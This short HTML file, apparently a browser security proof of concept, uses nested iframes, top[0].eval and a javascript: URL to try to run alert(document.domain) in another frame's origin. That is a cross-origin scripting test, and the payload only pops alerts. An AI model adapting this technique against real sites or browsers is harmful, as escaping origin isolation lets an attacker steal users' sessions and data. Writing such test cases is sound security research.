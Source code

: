 # wd

<iframe src="redirect.php"></iframe>
<iframe src="https://www.google.com/images/srpr/logo11w.png"></iframe>
<script>
    top[0].eval('_=top[1];alert();_.location="javascript:alert(document.domain)"');
</script>
